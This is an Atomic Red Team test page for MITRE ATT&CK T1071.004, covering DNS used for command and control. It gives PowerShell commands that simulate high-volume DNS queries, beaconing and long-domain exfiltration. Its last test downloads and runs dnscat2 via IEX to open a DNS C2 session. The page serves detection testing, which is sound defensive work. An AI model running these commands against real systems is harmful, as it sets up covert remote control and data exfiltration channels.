 # T1071.004 - Application Layer Protocol: DNS
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1071/004)
<blockquote>Adversaries may communicate using the Domain Name System (DNS) application layer protocol to avoid detection/network filtering by blending in with existing traffic. Commands to the remote system, and often the results of those commands, will be embedded within the protocol traffic between the client and server. 

The DNS protocol serves an administrative function in computer networking and thus may be very common in environments. DNS traffic may also be allowed even before network authentication is completed. DNS packets contain many fields and headers in which data can be concealed. Often known as DNS tunneling, adversaries may abuse DNS to communicate with systems under their control within a victim network while also mimicking normal, expected traffic.(Citation: PAN DNS Tunneling)(Citation: Medium DnsTunneling) </blockquote>

## Atomic Tests

- [Atomic Test #1 - DNS Large Query Volume](#atomic-test-1---dns-large-query-volume)

- [Atomic Test #2 - DNS Regular Beaconing](#atomic-test-2---dns-regular-beaconing)

- [Atomic Test #3 - DNS Long Domain Query](#atomic-test-3---dns-long-domain-query)

- [Atomic Test #4 - DNS C2](#atomic-test-4---dns-c2)


<br/>

## Atomic Test #1 - DNS Large Query Volume
This test simulates an infected host sending a large volume of DNS queries to a command and control server.
The intent of this test is to trigger threshold based detection on the number of DNS queries either from a single source system or to a single targe domain.
A custom domain and sub-domain will need to be passed as input parameters for this test to work. Upon execution, DNS information about the domain will be displayed for each callout.

**Supported Platforms:** Windows


**auto_generated_guid:** 1700f5d6-5a44-487b-84de-bc66f507b0a6





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| query_type | DNS query type | String | TXT|
| subdomain | Subdomain prepended to the domain name | String | atomicredteam|
| query_volume | Number of DNS queries to send | Integer | 1000|
| domain | Default domain to simulate against | String | 127.0.0.1.xip.io|


#### Attack Commands: Run with `powershell`! 


```powershell
for($i=0; $i -le #{query_volume}; $i++) { Resolve-DnsName -type "#{query_type}" "#{subdomain}.$(Get-Random -Minimum 1 -Maximum 999999).#{domain}" -QuickTimeout}
```






<br/>
<br/>

## Atomic Test #2 - DNS Regular Beaconing
This test simulates an infected host beaconing via DNS queries to a command and control server at regular intervals over time.
This behaviour is typical of implants either in an idle state waiting for instructions or configured to use a low query volume over time to evade threshold based detection.
A custom domain and sub-domain will need to be passed as input parameters for this test to work. Upon execution, DNS information about the domain will be displayed for each callout.

**Supported Platforms:** Windows


**auto_generated_guid:** 3efc144e-1af8-46bb-8ca2-1376bb6db8b6





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| runtime | Time in minutes to run the simulation | Integer | 30|
| domain | Default domain to simulate against | String | 127.0.0.1.xip.io|
| subdomain | Subdomain prepended to the domain name | String | atomicredteam|
| query_type | DNS query type | String | TXT|
| c2_interval | Seconds between C2 requests to the command and control server | Integer | 30|
| c2_jitter | Percentage of jitter to add to the C2 interval to create variance in the times between C2 requests | Integer | 20|


#### Attack Commands: Run with `powershell`! 


```powershell
Set-Location PathToAtomicsFolder
.\T1071.004\src\T1071-dns-beacon.ps1 -Domain #{domain} -Subdomain #{subdomain} -QueryType #{query_type} -C2Interval #{c2_interval} -C2Jitter #{c2_jitter} -RunTime #{runtime}
```






<br/>
<br/>

## Atomic Test #3 - DNS Long Domain Query
This test simulates an infected host returning data to a command and control server using long domain names.
The simulation involves sending DNS queries that gradually increase in length until reaching the maximum length. The intent is to test the effectiveness of detection of DNS queries for long domain names over a set threshold.
 Upon execution, DNS information about the domain will be displayed for each callout.

**Supported Platforms:** Windows


**auto_generated_guid:** fef31710-223a-40ee-8462-a396d6b66978





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| query_type | DNS query type | String | TXT|
| subdomain | Subdomain prepended to the domain name (should be 63 characters to test maximum length) | String | atomicredteamatomicredteamatomicredteamatomicredteamatomicredte|
| domain | Default domain to simulate against | String | 127.0.0.1.xip.io|


#### Attack Commands: Run with `powershell`! 


```powershell
Set-Location PathToAtomicsFolder
.\T1071.004\src\T1071-dns-domain-length.ps1 -Domain #{domain} -Subdomain #{subdomain} -QueryType #{query_type}
```






<br/>
<br/>

## Atomic Test #4 - DNS C2
This will attempt to start a C2 session using the DNS protocol. You will need to have a listener set up and create DNS records prior to executing this command.
The following blogs have more information.

https://github.com/iagox86/dnscat2

https://github.com/lukebaggett/dnscat2-powershell

**Supported Platforms:** Windows


**auto_generated_guid:** e7bf9802-2e78-4db9-93b5-181b7bcd37d7





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| domain | Domain Name configured to use DNS Server where your C2 listener is running | String | example.com|
| server_ip | IP address of DNS server where your C2 listener is running | String | 127.0.0.1|


#### Attack Commands: Run with `powershell`! 


```powershell
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/lukebaggett/dnscat2-powershell/45836819b2339f0bb64eaf294f8cc783635e00c6/dnscat2.ps1')
Start-Dnscat2 -Domain #{domain} -DNSServer #{server_ip}
```






<br/>
